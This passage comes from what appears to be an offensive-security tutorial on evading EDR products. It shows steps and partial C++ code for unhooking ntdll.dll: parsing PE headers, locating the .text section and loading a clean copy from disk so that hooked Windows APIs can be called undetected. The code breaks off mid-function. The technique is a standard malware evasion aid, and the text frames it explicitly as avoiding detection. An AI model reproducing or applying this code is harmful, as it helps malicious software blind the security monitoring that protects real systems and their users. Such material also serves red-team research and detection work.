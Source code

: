    ```cpp

### 4.2 Unhooking `ntdll.dll` (restoring `.text` section)
##### About
As I discussed in the [Objectives](#0-objectives) section about hooking/unhooking, it is "breaking" the link between the EDR and the Windows APIs so we can can and use them without being detected. 
The thing about these **inline hooks** is that they are typically injected in the `.text` section. So we can restore a copy of the clean copy `ntdll.dll` from disk and replacing its `.text` section.
##### Code
1. Load a clean copy of ntdll.dll from the disk.
2. Parse the PE headers for both ntdll.dll copies (in-memory and on-disk).
3. Locate the `.text` section.(where syscall stubs are stored)
4. Temporarily make the `.text` section writable using `VirtualProtect` or `NtProctectVirtualMemory`.
5. Overwrite the hooked memory region with the clean version.
6. Restore the memory protections to preserve normal behavior.

```cpp

#include <windows.h>
#include <winternl.h>
#include <iostream>
#include <vector>
#include <fstream>

// Gets RVA and size of the .text section
bool GetTextSectionInfo(BYTE* moduleBase, DWORD& rva, DWORD& size) {
    auto dos = (IMAGE_DOS_HEADER*)moduleBase;
    if (dos->e_magic != IMAGE_DOS_SIGNATURE) return false;

    auto nt = (IMAGE_NT_HEADERS*)(moduleBase + dos->e_lfanew);
    if (nt->Signature != IMAGE_NT_SIGNATURE) return false;

    auto section = IMAGE_FIRST_SECTION(nt);

    for (WORD i = 0; i < nt->FileHeader.NumberOfSections; ++i) {
        if (strncmp((char*)section->Name, ".text", 5) == 0) {
            rva  = section->VirtualAddress;
            size = section->Misc.VirtualSize;
            return true;
        }
        ++section;
    }

    return false;
}

// Loads ntdll.dll from disk into memory buffer
std::vector<BYTE> LoadCleanNtdllFromDisk() {
    WCHAR systemPath[MAX_PATH];
    GetSystemDirectoryW(systemPath, MAX_PATH);

    std::wstring fullPath = std::wstring(systemPath) + L"\\ntdll.dll";
    std::ifstream file(fullPath, std::ios::binary);

    if (!file) {
        std::cerr << "[-] Could not open ntdll.dll from disk.\n";
        return {};
    }

    file.seekg(0, std::ios::end);
    size_t fileSize = file.tellg();
    file.seekg(0, std::ios::beg);

   ```